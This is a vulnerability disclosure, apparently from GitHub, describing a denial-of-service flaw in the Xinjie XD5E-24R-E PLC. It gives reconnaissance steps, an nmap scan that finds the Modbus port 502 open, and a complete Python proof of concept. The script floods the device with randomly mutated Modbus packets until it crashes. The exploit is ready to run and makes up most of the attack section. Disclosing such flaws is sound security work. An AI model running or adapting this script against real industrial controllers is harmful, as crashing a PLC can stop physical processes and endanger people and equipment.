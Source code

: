 # Summary
Xinjie PLC XD5E-24R-E has a denial of service vulnerability. An attacker can send a large number of data packets to cause the PLC to crash.

# Details
Connectivity test of the device:![image](https://github.com/user-attachments/assets/170d5807-3800-4057-a952-4500746c0b37)

Nmap scans device ports:![image](https://github.com/user-attachments/assets/c1f567c7-ee5a-451d-88a5-d82f0f26b3eb)

You can see that port 502 is open.

Then we run the script:![image](https://github.com/user-attachments/assets/15afc01c-fdde-4cc6-b79c-62c8f5cdc58e)

Soon you will see the device crash. ![image](https://github.com/user-attachments/assets/8c3c17f2-2deb-458c-ad21-57418130d816)


# PoC
My host ip is `192.168.6.10` and the device's ip is `192.168.6.6`.

```py
import socket

def F1(x):
    return x ^ 0xFF
    pass
def F2(x):
    return x ^ 0xFE
    pass
def F3(x):
    return (x-0x10) & 0xFF
    pass
def F4(x):
    return (x*0x17) & 0xFF
    pass

def F5(x):
    return (x**2) & 0xFF

def Change(data: bytes):
    l = len(data)
    import random
    pos = 0
    while ((pos==0) or (pos == 20)):
        pos = random.randint(0, l - 1) 
    Fs = [F1, F2, F3, F4, F5]
    f = random.randint(0, 4)  
    func = Fs[f]
    newX = func(data[pos])

    hex_str = format(newX, '02x')
    data = data[:pos] + bytes.fromhex(hex_str) + data[pos + 1:]

    return data

ori = "000100000006010300000064"
ori = bytes.fromhex(ori)
queue = []

queue.append(ori)
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.6.6",502))
MAX_LEN = 65536
cur = 0
first = False
while True:
    if((cur)%100 == 0):
        print(cur,end=' ')
    for i in range(8):
        top = queue[cur]
        now = Change(top)
        queue.append(now)
        try:
            s.send(now)
        except:
            if first == False:
                print()
                print("\033[91m[+] CRASHED!!!!!!!!!!!!!!!!!!\033[0m")
    cur = (cur + 1) % MAX_LEN
```
# Discoverer
ylqncepu@163.com

https://github.com/N0zoM1z0

Li Chunan(804242129@qq.com)
